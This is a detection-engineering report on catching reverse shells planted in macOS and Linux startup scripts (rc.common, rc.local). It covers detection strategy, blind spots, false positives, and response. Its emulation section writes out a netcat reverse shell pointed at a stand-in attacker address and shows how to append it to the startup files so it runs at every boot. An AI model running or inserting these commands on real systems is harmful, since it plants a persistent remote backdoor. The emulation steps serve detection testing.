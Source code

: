 # Alerting & Detection Strategy (ADS) Report

## Goal
The aim of this technique is to detect adversarial attempts to bypass security monitoring using reverse command shell scripts on macOS and Linux platforms.

## Categorization
- **MITRE ATT&CK Mapping:** T1037.004 - RC Scripts
- **Tactic / Kill Chain Phases:** Persistence, Privilege Escalation
- **Platforms:** macOS, Linux  
[MITRE ATT&CK Reference](https://attack.mitre.org/techniques/T1037/004)

## Strategy Abstract
The detection strategy leverages log analysis from system files such as `rc.common`, `rc.local`, and other startup scripts to identify anomalous activities. It focuses on monitoring for unusual modifications or the creation of reverse command shell scripts that could facilitate unauthorized access or persistence. Patterns are analyzed for known malicious indicators, including unexpected network connections initiated by these scripts.

## Technical Context
Adversaries typically exploit system initialization files like `rc.common` and `rc.local` to insert commands that create a persistent backdoor. These scripts can establish reverse shells, allowing attackers remote control over compromised systems without direct user interaction. In real-world scenarios, this technique is often used after initial access has been gained to ensure continued presence even if the original exploit vector is discovered.

### Adversary Emulation Details
- **Sample Commands:** `nc -e /bin/sh attacker_ip_address port`
- **Test Scenarios:**
  - Modify `rc.local` to include a reverse shell command.
  - Trigger system restart and monitor for network connections originating from the host machine.

## Blind Spots and Assumptions
- Assumes that all relevant log files are accessible and properly configured.
- Does not account for sophisticated obfuscation techniques that might hide script execution.
- Relies on known indicators; new or unknown variants may evade detection.

## False Positives
- Legitimate use of `rc.local` by system administrators for benign automation tasks.
- Network connections initiated by authorized maintenance scripts.
- Temporary debugging scripts left in initialization files during development or troubleshooting.

## Priority
**High**: This technique poses a significant risk as it allows adversaries to maintain persistence and escalate privileges, potentially leading to full system compromise. The stealthy nature of reverse shells makes them particularly dangerous for bypassing traditional security controls.

## Validation (Adversary Emulation)
### Step-by-Step Instructions

1. **Preparation:**
   - Ensure you have administrative access to a test environment running macOS or Linux.
   - Set up network monitoring tools to capture outgoing connections.

2. **Modify `rc.common`:**
   - Open the file with a text editor (e.g., `sudo nano /etc/rc.common`).
   - Insert a command for a reverse shell: 
     ```bash
     echo "nc -e /bin/sh attacker_ip_address port" >> /etc/rc.common
     ```

3. **Modify `rc.local`:**
   - Open the file with a text editor (e.g., `sudo nano /etc/rc.local`).
   - Insert the same command:
     ```bash
     echo "nc -e /bin/sh attacker_ip_address port" >> /etc/rc.local
     ```

4. **Restart System:**
   - Reboot the test machine to trigger the scripts.

5. **Monitor Network Activity:**
   - Use a network monitoring tool to observe connections originating from the test machine to confirm shell activation.

6. **Analyze Logs:**
   - Review system logs for modifications in `rc.common` and `rc.local`.
   - Look for unauthorized changes or unexpected script executions.

## Response
When an alert is triggered, analysts should:

- Immediately isolate the affected system to prevent further compromise.
- Conduct a thorough investigation of the startup scripts (`rc.common`, `rc.local`) for unauthorized changes.
- Review network logs for suspicious outbound connections that match known patterns of reverse shell traffic.
- Determine if additional systems have been compromised by similar methods and expand the investigation accordingly.

## Additional Resources
Additional references and context:  
Currently, no specific resources are available. Analysts should refer to general cybersecurity guidelines on detecting and responding to persistence mechanisms and privilege escalation techniques.

---

This report outlines a comprehensive strategy for detecting adversarial use of reverse command shell scripts, providing actionable insights and steps for emulation and response.